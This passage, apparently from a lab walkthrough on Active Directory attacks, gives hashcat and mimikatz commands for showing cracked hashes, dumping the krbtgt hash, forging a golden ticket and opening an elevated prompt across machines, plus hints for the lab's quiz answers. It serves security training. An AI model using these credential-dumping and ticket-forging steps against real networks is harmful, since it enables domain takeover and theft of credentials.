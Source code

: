 * view the password
  
  ```bash
  hashcat --show hash.txt
  ```

### 4.1

what is the Machine1 Password?

> ans can be found using the cracking

### 4.2

What is the Machine2 Hash?

> ans can be found using `lsadump::lsa /patch`

---

## Task 05: Golden Ticket Attacks w/ mimikatz

* Dump the krbtgt Hash -
  * `mimikatz.exe` run the mimikatz
  * `privilege::debug` ensure this outputs [privilege "20" ok]
  * `lsadump::lsa /inject /name:krbtgt` This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket

  ![img](https://i.imgur.com/Yzq71aI.png)

* Create a Golden Ticket -
   `kerberos::golden /user: /domain: /sid: /krbtgt: /id:` #inside mimikatz
    ![img](https://i.imgur.com/9ZIN20L.png)
  
* Use the Golden Ticket to access other machine -
  * `misc::cmd` - This will open a new command prompt with elevated privileges to all machines

     ![img](https://i.imgur.com/iB0Io20.png)
  * Access other Machines! - You will now have another command prompt with access to all other machines on the network

     ![img1](https://i.imgur.com/BYSud9C.png)

     ![img2](https://i.imgur.com/tp3N9gt.png)

---

## Task 06: Enumeration w/ Server Manager

### 6.1

What tool allows to view the event logs?
